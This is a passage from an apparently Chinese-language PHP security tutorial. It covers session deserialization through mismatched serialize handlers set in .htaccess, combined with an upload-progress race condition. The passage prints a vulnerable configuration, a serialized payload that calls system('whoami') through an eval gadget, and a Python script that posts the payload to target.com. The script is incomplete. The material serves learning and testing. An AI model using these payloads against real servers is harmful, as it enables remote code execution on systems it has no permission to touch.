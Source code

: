 test2.php文件内容为空：

.htaccess文件内容：

```
php_value session.serialize_handler php_serialize
php_value session.auto_start 1
```

分析：访问`test.php`时，由于`.htaccess`中配置的作用，将启用`session`存储，那么就可以利用上一个场景中的攻击方式向session文件注入`MyTest`对象序列化后的数据，同时利用条件竞态访问`index.php`，由于其中启用了`session_start()`,并且`session`序列化处理方式与访问`test.php`时的不同,就可以触发反序列化漏洞。

利用方式：

构造序列化数据：

```
&lt;?php
class MyTest`{`
    public $str;
    public function __destruct()`{`
        eval($this-&gt;str);
    `}`
`}`

$a = new MyTest();
$a-&gt;str = "system('whoami');";
$s = serialize($a);
echo str_replace("O:6:","|O:6:",$s);
//"|O:6:"MyTest":1:`{`s:3:"str";s:17:"system('whoami');";`}`"
```

攻击脚本:

由于python使用request库上传文件时，filename字段的值会被urlencode，导致session中反序列化失败，所以要抓包修改一下，以下脚本用于生成上传文件的包。

```
import requests

sessid = 'helloworld'

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        proxy = `{`
        'http': '127.0.0.1:8866'
        `}`
        filename = "|O:6:"MyTest":1:`{`s:3:"str";s:17:"system('whoami');";`}`"
        resp = session.post('http://target.com/upload/test2.php',data=`{`'PHP_SESSION_UPLOAD_PROGRESS':'test'`}`,files=`{`'file':(filename,f)`}`,cookies=`{`'PHPSESSID':sessid`}`,proxies=proxy)
```

将抓取的包中filename字段被urlencode的部分修改回来：

[![](https://p3.ssl.qhimg.com/t016e02d35fe7a66ad2.png)](https://p3.ssl.qhimg.com/t016e02d35fe7a66ad2.png)

然后送到Intruder模块，用null payload，线程设置为10，保持持续发送，
